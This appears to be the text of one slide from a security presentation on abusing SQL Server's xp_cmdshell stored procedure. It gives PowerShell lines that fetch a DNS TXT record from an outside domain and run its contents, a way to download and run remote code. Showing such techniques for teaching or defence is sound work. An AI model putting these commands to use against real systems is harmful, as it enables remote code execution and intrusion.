

Database - Stored Procedure - xp_cmdshell
powershell
$text = Resolve-DnsName hax.seamlessintelligence.com.au -Type TXT
 powershell $text.strings[1]